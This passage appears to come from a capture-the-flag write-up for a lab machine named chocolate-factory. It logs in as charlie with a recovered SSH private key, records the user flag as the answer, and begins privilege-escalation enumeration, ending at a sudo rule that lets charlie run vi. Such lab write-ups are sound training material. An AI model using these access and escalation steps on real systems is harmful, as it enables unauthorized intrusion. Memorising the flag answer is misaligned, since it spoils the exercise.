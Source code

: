 `teleport.pub`:
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhp2s9zdSH3xFgOtnwJQEOBYsQ1TJsXrSUyT1hA4ENH6Cm5FbUDMvXYrfn8yLdXC2nQ1LCaVLuFrjL2y/aQ9e/yUU6YuLUVXaGqVA8vD+6ecQXBRsvgoGoF6YgN59XmnEyYKqqC4lciTOSUAhc1iF/EuvxwFL8cmiH/uqYuqsOhc2HBiMHfOCi/tFS2TXkm/XUPQi2zKvnim9iEJCB2iitTuXjYRklrIiiYcqifWOSh93X+hh84HCDPok6U0fWMUmjIhmDY6YSGdKNSW1n2ZLOZDK/czgA5FCjdl4tv7NudInJwQRFo5s+VvR1HLcqg3v2W352H6NKD90z9Nhh7kvj charlie@chocolate-factory
```

We can now use `ssh` to log in as charlie using this stuff:
```shell-session
$ chmod 600 teleport
$ ssh -l charlie -i teleport TARGET_IP
charlie@chocolate-factory:/$
charlie@chocolate-factory:/$ cd /home/charlie
charlie@chocolate-factory:/home/charlie$ ls
teleport  teleport.pub	user.txt
charlie@chocolate-factory:/home/charlie$ cat user.txt 
flag{cd5509042371b34e4826e4838b522d2e}
```

> Enter the user flag
> 
> Answer: `flag{cd5509042371b34e4826e4838b522d2e}`

## Privilege Escalation

Let's see what charlie can do:
```shell-session
charlie@chocolate-factory:/home/charlie$ uname -a
Linux chocolate-factory 4.15.0-115-generic #116-Ubuntu SMP Wed Aug 26 14:04:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

charlie@chocolate-factory:/home/charlie$ cat /etc/os-release 
NAME="Ubuntu"
VERSION="18.04.5 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.5 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
charlie@chocolate-factory:/home/charlie$ cat /etc/issue      
Ubuntu 18.04.5 LTS \n \l

charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```
